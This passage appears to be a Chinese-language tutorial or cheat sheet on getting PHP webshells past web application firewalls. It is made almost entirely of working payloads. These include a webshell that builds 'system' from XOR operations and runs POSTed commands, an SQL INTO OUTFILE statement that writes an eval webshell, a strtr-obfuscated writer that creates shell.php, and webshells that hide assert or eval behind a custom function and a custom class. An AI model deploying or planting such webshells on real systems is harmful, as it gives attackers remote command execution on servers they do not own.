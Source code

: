 ##### 通过异或运算编解码绕过

```php
<?php
$a = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //$a=system
@$a($_POST['cmd']);
?>
```

##### 嵌套运算绕过 WAF

#### 写入其它文件绕过 WAF

##### 通过 sql 注入写入 WebShell

```SQL
select '<?php @eval($_POST[cmd]);?>' into outfile '~/mysql-php/1.php'
```

##### 文件 io 写入 WebShell

```php
<?php
$a = strtr("abatme","me","em");      //$a = abatem
$b = strtr($a,"ab","sy");       //$b = system（高危函数）
$c = strtr('echo "<?php evqrw$_yKST['cmd'])?>" > ./shell.php',"qrwxyK","al(_PO");
//$c = 'echo "<?php eval(_POST['cmd'])?>" > ./shell.php'
@$b($c);  //将一句话木马内容写入同目录下的shell.php中
?>
```

#### 包装

##### 构建自定义函数包装敏感操作

```php
<?php
function shyshy($a){
assert($a);
}
@shyshy($_POST['cmd']);
?>
```

##### 构建自定义类包装敏感操作

```php
<?php
class Shell
{
    var $arg;
    function setarg($str)
    {
        $this->arg = '' . $str . null;
    }
    function go()
    {
        eval("$this->arg");
    }
}
$run = new Shell;
$run->setarg($_GET['cmd']);
$run->go();
?>
```
